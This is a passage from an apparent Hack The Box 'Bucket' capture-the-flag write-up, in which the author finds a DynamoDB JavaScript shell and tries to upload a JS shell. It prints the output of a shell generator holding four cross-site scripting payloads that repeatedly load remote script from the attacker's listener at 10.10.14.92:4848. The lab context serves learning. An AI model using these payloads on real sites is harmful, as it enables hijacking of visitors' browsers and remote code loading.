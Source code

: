 This returned nothing.

Then I noticed the `/` at the end of the `http://444af250749d:4566/shell/` URL. I tried appending this to the `s3` URL, and got a result:

![Dynamo DB Javascript Shell](/assets/images/blogs/Pasted image 20210428124724.png)

This seems to be a shell for interacting with DDB.

I did a lot of experimenting with the features on this page. I'll give a quick overview of what I tried rather than jumping straight to what worked. I'm hoping to do this in all of my writeups, so you can see my approach and methodology; but I don't want failed attempts to bog down my writeups, so I'll exclude syntax errors and always include a link to the [working exploit](#exfiltrating-data) if you want to skip ahead.

**Attempting to Upload a Shell**

Clicking the 'save' icon seems to allow uploading a file:

![File Upload Box](/assets/images/blogs/Pasted image 20210428130221.png)

I downloaded a [javascript shell](https://github.com/shelld3v/JSshell) from GitHub and attempted to upload one:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/js-shell/JSshell]
└─$ python3 jsh.py -s 10.10.14.92 -g
    __              
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v3.1

Payloads:  
 - SVG: <svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)>
 - SCRIPT: <script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)</script>
 - IMG: <img src=x onerror=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)>
 - BODY: <body onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"}></body>

Listening on [any] 4848 for incoming JS shell ...

```

I used the `<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.14.92:4848"},1010)</script>` payload, and saved this to a file named `pld` before uploading it.

I then tried to hit the shell by visiting `http://s3.bucket.htb/pld`, but got no response back. I could have spent some time looking for an upload location, but had a feeling that this wasn't the correct way to go, so I moved on.

I had to use the `kill` command to close the listener using its PID, as it was unresponsive to `Ctrl + C`:
